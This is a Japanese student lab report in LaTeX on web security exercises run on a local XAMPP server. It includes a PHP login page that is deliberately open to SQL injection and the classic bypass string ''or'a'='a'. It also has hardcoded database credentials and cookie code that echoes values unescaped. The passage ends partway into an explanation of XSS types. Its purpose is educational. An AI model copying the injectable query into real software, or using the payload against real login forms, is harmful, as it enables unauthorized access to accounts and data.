\documentclass[11pt,a4paper]{jsarticle}
%
\usepackage{amsmath,amssymb}
\usepackage{bm}
\usepackage{graphicx}
\usepackage{ascmac}
\usepackage{atbegshi}
\usepackage{geometry} % 追加: 余白を一時的に0にするため
\usepackage{listings} % ソースコード表示のために追加
\usepackage{float}
\usepackage{tcolorbox}
\newtcbox{\code}[1][]{
  colback=gray!10!white,
  colframe=gray!20!white,
  boxrule=0.5pt,
  left=2pt,right=2pt,top=1pt,bottom=1pt,
  box align=base,
  fontupper=\ttfamily
}
% 簡易コード表示用マクロ(本文中で\textttt{...}を使えるようにする)
\newcommand{\textttt}[1]{\texttt{#1}}
%ここからソースコードの表示に関する設定
\lstset{
  basicstyle={\ttfamily},
  identifierstyle={\small},
  commentstyle={\smallitshape},
  keywordstyle={\small\bfseries},
  ndkeywordstyle={\small},
  stringstyle={\small\ttfamily},
  frame={tb},
  breaklines=true,
  columns=[l]{fullflexible},
  numbers=left,
  xrightmargin=0zw,
  xleftmargin=3zw,
  numberstyle={\scriptsize},
  stepnumber=1,
  numbersep=1zw,
  lineskip=-0.5ex
}
\renewcommand{\lstlistingname}{ソースコード} % キャプションを「ソースコード」に変更
%ここまでソースコードの表示に関する設定
\newcommand{\myPdfAuthor}{平田爽馬/HIRATA,Soma}
\newcommand{\myPdfTitle}{Webセキュリティ実験}
\AtBeginShipoutFirst{\special{pdf:tounicode EUC-UCS2}} % pLaTeXの内部漢字コードがEUCの場合
\AtBeginDvi{\special{pdf:docinfo <<
 /Author   (\myPdfAuthor)
 /Title    (\myPdfTitle)>>}}
%
\setlength{\textwidth}{\fullwidth}
\setlength{\textheight}{40\baselineskip}
\addtolength{\textheight}{\topskip}
\setlength{\voffset}{-0.2in}
\setlength{\topmargin}{0pt}
\setlength{\headheight}{0pt}
\setlength{\headsep}{0pt}
%
\newcommand{\divergence}{\mathrm{div}\,}  %ダイバージェンス
\newcommand{\grad}{\mathrm{grad}\,}  %グラディエント
\newcommand{\rot}{\mathrm{rot}\,}  %ローテーション
%
\title{\myPdfTitle}
\author{5E25番 平田爽馬}
\date{}
\begin{document}
%\maketitle%タイトルを挿入したくない場合は,消す
%
%
\section{目的}
現代ではゲームサーバ・通販サイトなどのサービスを,ネットワーク知識がなくても容易に解説できるまでになっている.
しかし,これらのサービスには脆弱性を意図せず含んでしまう場合があり,アカウント情報が盗まれるなどの被害が出る可能性がある.
そのため,本実験では実際に脆弱性を体験し,適切な対策を考察することを目的とする.

\section{SQLインジェクションによるデータベースの不正ログイン}
\subsection*{データベース}
データベースは決まった条件で整理されたデータの集まりであり,コンピュータ上で大量のデータを効率よく利用するために使用される.
図\ref{fig1}にデータベースの例を示す.データベースはテーブル(表)を単位として構成され,カラム(列),レコード(行),フィールド(セル)の要素を持つ.
カラムにはデータの属性を示し,レコードは1件分のデータのまとまりである.フィールドには,実際の個々のデータが格納される.

\begin{figure}[htbp]
\centering
\includegraphics[width=90mm]{./fig/fig1.eps}
\caption{データベースの名称}
\label{fig1}
\end{figure}

\subsection*{SQLインジェクション}
SQL(StructuredQueryLanguage)とは,データベースに対してデータの検索・追加・更新・削除といった操作を行うための言語である.
SQLインジェクションは,図\ref{fig2}のようにアプリケーションがデータベースとやり取りを行う際に,悪意のあるSQLコードを挿入することで,不正な操作を実行させる攻撃手法である.
この攻撃により,攻撃者はデータベース内の情報を不正に取得,改ざん,削除することが可能となる.

\begin{figure}[htbp]
\centering
\includegraphics[width=90mm]{./fig/fig2.eps}
\caption{SQLインジェクションの例}
\label{fig2}
\end{figure}

\subsection*{実験1:XAMMPを用いたGET・POSTの動作確認}
本実験では,XAMMPを用いて仮想的なサーバを立ち上げて実験を行う.
XAMMPはウェブ開発に必要なソフトApache,MariaDB(MySQL),PHP,Perlを一括でインストールできるパッケージソフトウェアである.
ローカル環境で動作するため,既存のシステムに影響を与えず検証が可能である.\\\\
以下のリンクより,XAMMPをインストールする.\\
\fbox{https://www.apachefriends.org/index.html}\\\\
図\ref{fig3}のように,Startボタンを押して→Stopに切り替わった後,Statusマークが緑色になると準備が完了となる.

\begin{figure}[htbp]
\centering

\includegraphics[width=85mm]{./fig/fig3.eps}
\caption{XAMMPの起動画面}
\label{fig3}
\end{figure}

XAMMPインストール後,xammp/htdocsフォルダが生成される.\\
(デフォルトはC:/xammp/htdocs)\\
このフォルダにHTML,PHPファイルなどを置くことで,ブラウザ上からアクセスできるようになる.\\\\
(例)\\
C:/xammp/htdocs/index.htmlを置く→ブラウザでhttp://localhost/index.htmlで動作確認できる.

\subsubsection*{課題1}
login.htmlおよびsession.phpを作成し,login.html上でGET・POSTの動作の違いが何か,URL欄を見て確認する.
また,GET・POSTの使い分けは何か調査し,まとめる.
\newpage
login.htmlをソースコード\ref{code1}に示す.

\begin{lstlisting}[caption=login.html, label=code1]
<html>
    <head>
        <title>Login Page</title>
    </head>
    <body>
        <h1>Login</h1>
        <form action="login.php" method="post">
            user:<input type="text" name="username" value=""><br />
            password:<input type="password" name="password" required><br />
            <input type="submit" name="login" value="Login">
        </form>
    </body>
</html>
\end{lstlisting}

session.phpをソースコード\ref{code2}に示す.
\begin{lstlisting}[caption=session.php, label=code2]
<?php
session_start();

$_SESSION["loginname"] = $_POST["username"];
$_SESSION["pass"] = $_POST["pass"];

if($_SESSION["loginname"] != "hoge" || $_SESSION["pass"] != "pass"){
?>
Login Failed<br />

<?php

 exit;

}

if(isset($_POST["username"])) setcookie("username", $_POST["username"], time());
?>
Login Succeeded<br />
\end{lstlisting}

ソースコードではPOSTにおける実装を示しているが,GETにおいて実装を行う場合はプログラム中のGETの文言を全てPOSTに置き換えることで実現できる.

\begin{figure}[H]
\centering
\includegraphics[width=100mm]{./fig/fig4.eps}
\caption{GETでの動作}
\label{fig4}
\end{figure}

\begin{figure}[H]
\centering

\includegraphics[width=100mm]{./fig/fig5.eps}
\caption{POSTでの動作}
\label{fig5}
\end{figure}

図\ref{fig4}にGETにおける動作,図\ref{fig5}にPOSTにおける動作を示す.
GETでは,URLにパラメータが記載されている.
一方で,POSTではURLにパラメータが記載されることなく,ユーザは直接どのような動作をしているか確認することはできない.
以下に,GETとPOSTの動作の違いを示す.

\paragraph*{GET}
GETは,指定したリソースの表現を転送できるようにリクエストするメソッドのことである.
何か情報を検索したり,取得したりするために使う.
具体的には,読み取り専用で使うような機能において用いる.
クライアントからサーバの状態は確認できない\cite{cite1}.

\paragraph*{POST}
POSTは指定したリソースを実装した機能に従って処理するメソッドのことである.
登録処理や更新処理などの,書き込みがありリソースが更新される可能性のある処理に対して使う.
URL上からやり取りを確認することはできないが,通信を盗聴すれば見ることができる.
そのため,安全性を担保するためには通信を暗号化する必要がある\cite{cite1}.

\subsection*{実験2:phpMyAdminを用いたデータベースの作成}
phpMyAdminはWebブラウザ上でデータベース(MySQLやMariaDB)の管理操作ができるツールである.
GUIで操作できるため,コマンドラインに不慣れなユーザでも直感的に扱うことができる.
また,SQL文を直接入力して実行することも可能であり,GUI操作とSQLコマンドの両方に対応している点が学習用にも適している.

本報告書では,MacOSにおいて環境構築を実施したため,その環境での実行手順を示す.
XAMMPにおいて,ApacheおよびMySQLをStartし,Running状態であることを確認する.
その後,Webブラウザでhttp://localhost/phpmyadminにアクセスすることでphpMyAdminにアクセスできる.
ログイン画面が表示された場合は,ログインを行う.(初期値はユーザ名が\textbf{"root"},パスワードなし)
図\ref{fig6}に表示されるphpMyAdminのページを示す.

\begin{figure}[H]
\centering

\includegraphics[width=100mm]{./fig/fig6.eps}
\caption{phpMyAdmin}
\label{fig6}
\end{figure}

\subsubsection*{データベースの作成}
\begin{enumerate}
  \item phpMyAdminを用いて,表\ref{table1}のテーブルを作成する.テーブル名は「\textbf{student}」とする.
  
  \begin{table}[H]
  \centering
  \caption{studentテーブル}
  \label{table1}
  \begin{tabular}{ccc} \hline
    id & class & name \\ \hline
    1 & M & aaa \\
    2 & E & bbb \\
    3 & S & ccc \\
    4 & C & ddd \\ \hline
  \end{tabular}
  \end{table}
  
  図\ref{fig7}に作成したテーブルをphpMyAdminで確認したものを示す.
  \begin{figure}[H]
  \centering
  
\includegraphics[width=60mm]{./fig/fig7.eps}
  \caption{作成したテーブル}
  \label{fig7}
  \end{figure}

  \item 基本的なデータベースの命令分CRUD(Create/Read/Update/Delete)について,それぞれの意味について調べる.また,1で作成したstudentテーブルを用いて,1)〜4)のSQL文および実行結果をまとめる.
  
  \begin{table}[H]
  \centering
  \begin{tabular}{|l|l|l|l|} \hline
    1)SELECT(データの検索) & 2)INSERT(データの追加) & 3)UPDATE(データの更新) & 4)DELETE(データの削除) \\ \hline
  \end{tabular}
  \end{table}
  \paragraph{SELECT}
  SELECTでは,データテーブルの格納データを検索することができる\cite{cite2}.

  図\ref{fig8}に示した\texttt{SELECT class FROM student;}を使うと,studentテーブルの中のclassの部分のみを検索して表示することができる.

  \begin{figure}[H]
  \centering
  \includegraphics[width=85mm]{./fig/fig8.eps}
  \caption{作成したテーブル}
  \label{fig8}
  \end{figure}

  \paragraph{INSERT}
  INSERTでは,データテーブルにデータを追加することができる\cite{cite2}.
  図\ref{fig9}に示した\texttt{INSERT INTO student VALUES('5', 'D', 'eee');}を使うと,studentテーブルに新たなレコードを追加挿入することができる.

  \begin{figure}[H]
  \centering
  
\includegraphics[width=85mm]{./fig/fig9.eps}
  \caption{INSERT文の実行結果}
  \label{fig9}
  \end{figure}

  \newpage
  \paragraph{UPDATE}
  UPDATEでは,データテーブルの格納データを更新することができる\cite{cite2}.
  図\ref{fig10}に示した\texttt{UPDATE student SET name='hirata' WHERE class='D';}では,classがDのレコードのnameを'hirata'に置き換えている.

  \begin{figure}[H]
  \centering
  
\includegraphics[width=85mm]{./fig/fig10.eps}
  \caption{UPDATE文の実行結果}
  \label{fig10}
  \end{figure}

  \paragraph{DELETE}
  DELETEでは,データテーブルの格納データを削除することができる\cite{cite2}.
  図\ref{fig11}に示した\code{DELETE FROM student WHERE class='D';}では,classがDのレコードを削除している.

  \begin{figure}[H]
  \centering
  
\includegraphics[width=85mm]{./fig/fig11.eps}
  \caption{DELETE文の実行結果}
  \label{fig11}
  \end{figure}

\end{enumerate}

\subsubsection*{SQLインジェクションの動作確認}
\begin{enumerate}
  \item phpMyAdminを用いてユーザログイン用のテーブルを作成する.***は任意の英数字を記入する.
  \begin{table}[H]
  \centering
  \caption{ユーザログイン用テーブル}
  \label{table2}
  \begin{tabular}{|c|c|} \hline
    ID & PASS \\ \hline
    *** & *** \\ \hline
    *** & *** \\ \hline
    *** & *** \\ \hline
  \end{tabular}
  \end{table}

  \item htdocsフォルダにソースコード\ref{code3}のファイルを作成し,作成したデータベーステーブルのID, PASSでログインできるか確認する.(動作は,localhost/login2.phpで確認する.)
  \newpage
  \begin{lstlisting}[caption=login.php, label=code3]
<?php

if(isset($_POST["id"]) and isset($_POST["pass"])){
    $hogeid = $_POST["id"];
    $hogepass = $_POST["pass"];

    $db = new mysqli("localhost", "hiraterm", "KyoProKP_server", "personal");

    $my_query = "select * from `loginTable` where ID = '$hogeid' and PASS = '$hogepass'";
    
    $data = $db -> query($my_query) -> fetch_assoc();

    if (!empty($data)) {
        print "Login Succeeded<br>";

        print(" ID   : ".$data["ID"]);
        print(" PASS : ".$data["PASS"]);
    } else {
        print "Sorry, ID and Password failed!<br>";
        print "Input again!";
    }
    print "<hr>";
}
?>

<form action="" method="post">
    ID:
    <input name="id" type="text" value="" /><br>
    PASS:
    <input name="pass" type="text" value="login" />
    <input name="act" type="submit" value="login" />
</form>
  \end{lstlisting}
  \begin{lstlisting}[caption=PHPがデータベースに接続するプログラムの解説, label=code4]
    // 7行目
    mysql("localhost", "admin", "password", "database_name");

    //localhost: サーバのIPアドレス(ローカル環境ではlocalhostを利用する)
    //admin: データベースのid(phpMyAdminと同様)
    //password: データベースのpassword(phpMyAdminのパスワードと同様)
    //database_name: データベースの名前(自分で設定した名前)

    // 9行目"hogehoge": 作成したテーブルの名前
  \end{lstlisting}
\end{enumerate}

\subsubsection*{課題2}
SQLインジェクションコードをPASS欄に入力した時の結果を確認する.
また,結果よりSQLインジェクションがlogin.php内でどのように動作したか調査する.

\begin{table}[H]
\centering
\begin{tabular}{|l|l|l|l|} \hline
  'or'a'='a \\ \hline
\end{tabular}
\end{table}

図\ref{fig12}にSQLインジェクションコードをPASS欄に入力した結果を示す.
入力することで,パスワードを入力しなくてもログインできてしまう.

\begin{figure}[H]
\centering

\includegraphics[width=85mm]{./fig/fig12.eps}
\caption{SQLインジェクションコード入力結果}
\label{fig12}
\end{figure}

\section{XSSを用いた攻撃の危険性と防御策}
Webブラウザ等でログイン時の自動入力他ショッピングサイトのカート機能を利用する場合,クライアント・サーバ間でデータの共有が必要である.
データを保持する仕組みとしてクッキー(cookie)とセッション(session)を用いた方法がある.
本実験では,代表的な攻撃手法であるクロスサイトスクリプティング(XSS)を用い,攻撃によってどのようにクッキー情報が盗まれるかを再現する.

\subsection*{実験1:クッキーの動作確認}

クッキーはユーザ側でCookieとしてデータを保持する機能である.Cookieはブラウザ毎にアクセスしたサーバ(ドメイン名)単位で管理される.
ログインに関するID,パスワードが記録され,ログイン情報の自動入力機能などで利用される.

セッションはサーバ側でデータを保持する機能である.複数ページでデータの共有ができるため,ショッピングサイトのカート機能などで利用される.

\subsubsection*{課題}
1回目・2回目以降におけるクライアント・サーバ間のやり取りをまとめる.\\

クライアントから最初のリクエストを受け取ったサーバは,新しいセッションを開始し,その利用者を識別するためのユニークなセッションIDを生成する.
このセッションIDをクッキーに含めてレスポンスとして返す.ブラウザはそのクッキーを保存し,2回目以降のリクエストでは自動的に添付して送信する.
サーバはリクエスト内のセッションIDを照合することで,同一のセッションであることを特定し,ログイン状態などを維持した適切なレスポンスを返すことができる.\\

続いて,クッキーとセッションの違いを\ref{table3}に示す.

\begin{table}[H]
\centering
\caption{クッキー/セッションの違い}
\label{table3}
\begin{tabular}{ccc} \hline
  項目  & クッキー & セッション \\ \hline
  データ格納箇所 & クライアント(ブラウザ) & サーバ \\
  保存できるデータ量 & 少量 & 大量(サーバのリソースに依存) \\
  用途 & ログイン情報の保持 & 複数ページにまたがる情報の保持 \\ \hline
\end{tabular}
\end{table}

\subsubsection*{課題1:Cookie確認プログラムを作成し,Cookieの動作を確認する}
ソースコード\ref{code5}および\ref{code6}をhtdocsフォルダに移動し,ソースコード\ref{code5}をWebブラウザで確認する.
\begin{lstlisting}[caption=Cookie.php, label=code5]
<?php

if(isset($_COOKIE['id'])){
	$beforeId = $_COOKIE['id'];
	$beforePass = $_COOKIE['pass'];
}else{
	$beforeId = "";
	$beforePass = "";
}
?>


<html>
<head>
<title>Cookie動作確認テスト</title>
</head>
<body>

<form action="InputCookie.php" method = "POST">
ユーザID:<input type ="text" name = "id" value="<?=$beforeId?>">
<br>
パスワード:<input type ="text" name = "pass"value="<?=$beforePass?>">
<br>
<input type="submit" value="登録">
</form>

</body>
</html>
\end{lstlisting}

\begin{lstlisting}[caption=InputCookie.php, label=code6]
<?php
setcookie("id",$_POST['id'],time()+60);
setcookie("pass",$_POST['pass'],time()+60);
?>


<html>
<head>
	<title>登録完了</title>
</head>
<body>
登録しました</br>
<a href="Cookie.php">戻る</a>
</body>
</html>
\end{lstlisting}

図\ref{fig13}においてCookie.phpを確認した結果を示す.

\begin{figure}[H]
\centering

\includegraphics[width=85mm]{./fig/fig13.eps}
\caption{Cookie.phpの確認結果}
\label{fig13}
\end{figure}

\newpage

\subsection*{クロスサイトスクリプティング}
クロスサイトスクリプティング(XSS)は何らかの手段でWebサイトに悪意のあるスクリプトが埋め込まれ,Webブラウザ上でスクリプトが実行される脆弱性である.
Webサイトに訪れたユーザの個人情報漏洩・マルウェアの感染などの危険性がある.

XSSには反射型,格納型,DOM Based型の3種類がある.本実験では格納型のXSSについて,スクリプトの動作・対策を確認する.

\paragraph{反射型}
反射型XSSは,攻撃者が用意した不正なスクリプトを含むURLパラメータなどを,ユーザにクリックさせることで発生する攻撃である.
スクリプトはWebサーバに送られるが,データベースなどには保存されず,そのままレスポンスとしてユーザのブラウザに反射されて実行される.
この攻撃は,URLをクリックした特定のユーザのみが影響を受ける即時的なもので,主にフィッシング詐欺の誘導などに悪用される\cite{cite3}.

\paragraph{格納型}
格納型XSSは,攻撃者が掲示板の投稿やコメント欄などを利用して,不正なスクリプトをWebアプリケーションのデータベースなどに永続的に保存させる攻撃である.
そのスクリプトが埋め込まれたページを閲覧した不特定多数のユーザは,意図せずスクリプトを実行させられてしまう.
一度攻撃が成功すると,ページを閲覧するだけで被害が広範囲に及ぶため,3種類の中で最も危険性が高いとされる\cite{cite3}.

\paragraph{DOM Based XSS}
DOM Based XSSは.サーバ側ではなく,クライアントサイドのJavaScriptなどの処理に起因する脆弱性を狙った攻撃である.
